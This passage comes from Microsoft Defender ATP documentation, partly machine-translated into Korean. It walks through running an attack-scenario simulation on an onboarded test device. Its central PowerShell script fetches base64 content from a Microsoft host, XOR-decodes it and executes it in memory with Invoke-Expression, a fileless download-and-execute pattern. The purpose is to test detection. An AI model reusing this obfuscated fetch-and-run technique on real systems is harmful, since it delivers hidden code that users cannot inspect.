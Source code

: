    <br>
    <span data-ttu-id="d1eec-141">d.</span><span class="sxs-lookup"><span data-stu-id="d1eec-141">d.</span></span>  <span data-ttu-id="d1eec-142">테스트 장치가 [Microsoft Defender Advanced Threat Protection (MDATP)에 등록](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)확인 합니다.</span><span class="sxs-lookup"><span data-stu-id="d1eec-142">Verify that the test device is [onboarded to Microsoft Defender Advanced Threat Protection (MDATP)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="d1eec-143">기존 테 넌 트를 사용 하 고 장치 그룹을 구현 하는 경우 테스트 장치에 대 한 전용 장치 그룹을 만들고 구성 UX에서 최상위 수준에 밀어넣습니다.</span><span class="sxs-lookup"><span data-stu-id="d1eec-143">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>


## <a name="run-the-simulation"></a><span data-ttu-id="d1eec-144">시뮬레이션 실행</span><span class="sxs-lookup"><span data-stu-id="d1eec-144">Run the simulation</span></span>

<span data-ttu-id="d1eec-145">공격 시나리오 시뮬레이션을 실행 하려면:</span><span class="sxs-lookup"><span data-stu-id="d1eec-145">To run the attack scenario simulation:</span></span>

1.  <span data-ttu-id="d1eec-146">테스트 사용자 계정을 사용 하 여 테스트 장치에 로그인 합니다.</span><span class="sxs-lookup"><span data-stu-id="d1eec-146">Log in to the test device with the test user account.</span></span>

2.  <span data-ttu-id="d1eec-147">테스트 장치에서 Windows PowerShell 창을 엽니다.</span><span class="sxs-lookup"><span data-stu-id="d1eec-147">Open a Windows PowerShell window on the test device.</span></span>

3.  <span data-ttu-id="d1eec-148">다음 시뮬레이션 스크립트를 복사 합니다.</span><span class="sxs-lookup"><span data-stu-id="d1eec-148">Copy the following simulation script:</span></span>
```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
= [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
-UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
$decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
$i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```
>[!NOTE]
><span data-ttu-id="d1eec-149">웹 브라우저에서이 문서를 여는 경우 특정 문자를 잃지 않거나 추가 줄 바꿈을 도입 하지 않고 전체 텍스트를 복사 하는 데 문제가 있을 수 있습니다.</span><span class="sxs-lookup"><span data-stu-id="d1eec-149">If you open this document on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="d1eec-150">이 문서를 다운로드 하 여 Adobe Reader에서 엽니다.</span><span class="sxs-lookup"><span data-stu-id="d1eec-150">Download this document and open it on Adobe Reader.</span></span>

4. <span data-ttu-id="d1eec-151">프롬프트에서 복사한 스크립트를 붙여넣고 실행 합니다.</span><span class="sxs-lookup"><span data-stu-id="d1eec-151">At the prompt, paste and run the copied script.</span></span>

>[!NOTE]
><span data-ttu-id="d1eec-152">RDP (원격 데스크톱 프로토콜)를 사용 하 여 PowerShell을 실행 하는 경우에는 **CTRL-V** 핫키 또는 오른쪽 클릭 붙여넣기 방법이 작동 하지 않을 수 있으므로 rdp 클라이언트에서 클립보드 텍스트 입력 명령을 사용 합니다.</span><span class="sxs-lookup"><span data-stu-id="d1eec-152">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span>  <span data-ttu-id="d1eec-153">최신 버전의 PowerShell 에서도 이러한 메서드를 사용할 수 없는 경우도 있는데, 먼저 메모리에서 메모장에 복사한 다음 가상 컴퓨터에 복사한 다음 PowerShell에 붙여 넣어야 합니다.</span><span class="sxs-lookup"><span data-stu-id="d1eec-153">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>
